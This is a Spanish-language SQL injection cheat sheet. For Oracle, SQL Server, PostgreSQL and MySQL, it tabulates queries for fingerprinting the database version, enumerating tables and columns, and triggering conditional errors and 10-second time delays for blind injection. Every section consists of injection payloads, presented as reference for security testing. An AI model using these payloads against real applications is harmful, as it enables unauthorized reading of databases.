 ## Versión de base de datos

Puede consultar la base de datos para determinar su tipo y versión.

|Motor|Consulta|
|---|---|
|Oaracle|`SELECT banner FROM v$version` / `SELECT version FROM v$instance`|
|Microsoft|`SELECT @@version`|
|PostgreSQL|`SELECT version()`|
|MySQL|`SELECT @@version`|

## Contenido de la base de datos

Puede enumerar las tablas que existen en la base de datos y las columnas que contienen esas tablas.

| Motor      | Consulta                                                                                                                    |
| ---------- | --------------------------------------------------------------------------------------------------------------------------- |
| Oaracle    | `SELECT * FROM all_tables` / `SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`                           |
| Microsoft  | `SELECT * FROM information_schema.tables` / `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |
| PostgreSQL | `SELECT * FROM information_schema.tables` / `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |
| MySQL      | `SELECT * FROM information_schema.tables` / `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |

## Errores condicionales

Puede probar una sola condición booleana y desencadenar un error de base de datos si la condición es verdadera.

|Motor|Consulta|
|---|---|
|Oaracle|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`|
|Microsoft|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`|
|PostgreSQL|`1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`|
|MySQL|`SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`|

## Retrasos de tiempo

Puede causar un retraso en la base de datos cuando se procesa la consulta. Lo siguiente causará un retraso de tiempo incondicional de 10 segundos.

|Motor|Consulta|
|---|---|
|Oaracle|`dbms_pipe.receive_message(('a'),10)`|
|Microsoft|`WAITFOR DELAY '0:0:10'`|
|PostgreSQL|`SELECT pg_sleep(10)`|
|MySQL|`SELECT SLEEP(10)`|
